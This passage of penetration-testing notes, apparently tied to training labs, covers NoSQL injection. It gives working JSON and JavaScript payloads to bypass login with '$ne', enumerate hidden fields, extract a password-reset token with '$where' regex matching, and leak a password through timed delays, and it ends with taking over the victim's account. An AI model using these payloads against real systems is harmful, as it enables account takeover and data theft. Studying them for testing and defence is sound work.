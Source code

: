Additionally, try using forgotten password functionality as well. 

Try adding `"$where": "0"` as an additional parameter such as:

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}
```

If the standard invalid message appears, try changing it from 0 to 1 and see if it changes again. If so, use Intruder with a new payload such as:

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[1].match('^.{§§}§§.*')"}
```

And select payload 1 as 0-20 (length) and payload 2 as characters (a-zA-Z0-9) - enumerates the potential fields on the user object. To identify more, change the `[1]` to `[2]` and so on. 

Hidden fields may be revealed like "passwdResetToken". Attempt to use the parameter in the forgotten password request with an invalid value to see if an "invalid value" error appears. If so, it's vulnerable.

To extract the value of a user's reset token, use the following:

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"this.YOURTOKENNAME.match('^.{§§}§§.*')"}
```

Use the value to reset the specific user's password and login as the victim.
# Timing Based Injection

Sometimes, triggering an error won't cause a difference in responses. Try to trigger a conditional time delay via:

- Loading the page many times to determine baseline time
- Insert timing based payload to cause a delay in response such as `${"where": "sleep(5000)"}` 
- Identify if response loads slowly

Some payloads below will trigger time delays if the password begins with `a`:

```json
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```

```json
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```


